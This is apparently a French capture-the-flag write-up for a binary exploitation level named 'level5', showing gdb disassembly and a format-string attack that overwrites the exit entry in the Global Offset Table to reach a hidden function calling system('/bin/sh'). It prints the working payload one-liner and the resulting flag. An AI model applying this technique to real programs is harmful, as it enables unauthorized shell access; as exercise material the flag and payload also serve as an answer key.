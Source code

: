 
# level5


## description
- Il y a un exécutable **level5**.Lorsqu'on l'exécute, il prends des caractères sur **stdin** puis l'affiche.

## Résolution

    0x0804850a <+6>:     call   0x80484c2 <n>

Dans la fonction main il n'y a rien d'utile.Juste un appel a la fonction n.


     0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
     0x080484f3 <+49>:    call   0x8048380 <printf@plt>
Un appel à **fgets** et à **printf** donc on va exploit le **format string** de printf.

Grace à la commande **info fonction** de **gdb**. on peut voir qu'il y a une fonction o qui n'est pas appelée.

     0x080484aa <+6>:     movl   $0x80485f0,(%esp)
     0x080484b1 <+13>:    call   0x80483b0 <system@plt>
Il y a un appel de **system** sur **"/bin/sh"**

On ne va pas pouvoir modifier l'adresse de retour parce que les fonctions **o** et **n** ne retourne rien et s'arrête avec l'utilisation de la fonction **exit**.
On va devoir remplacer l'adresse de **exit** présente de la [Global Offset Table](https://en.wikipedia.org/wiki/Global_Offset_Table) par l'adresse de la fonction **o**(0x080484a4).

Pour avoir l'adresse de **exit**, on va utiliser la commande **disas** de gdb sur l'adresse de l'appel de **exit** dans la fonction **n**.

     0x080484ff <+61>:    call   0x80483d0 <exit@plt>

On peut utiliser **disas** sur **0x80483d0**
  

    0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049838

Maintenant que l'on a l'adresse d'**exit**(0x8049838) et l'adresse de **o**(0x080484a4), 

On passe l'adresse de **exit** en **little endian**: \x38\x98\x04\x08.
On converti l'adresse de **o** en **décimal** pour l'utiliser dans le printf avec le modifier **%d** : 134513828 - 4(taille de l'adresse de exit).


Ensuite, on trouve ou est l'adresse de exit.

    python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit2 && cat /tmp/exploit2 | ./level5 
    aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
l'adresse d'exit est a la 4e position.

```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit2 && cat /tmp/exploit2 - | ./level5
```
Ca prends un certains temps pour finir à cause de la taille de l'adresse de o en décimal.

On obtient le flag.

    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
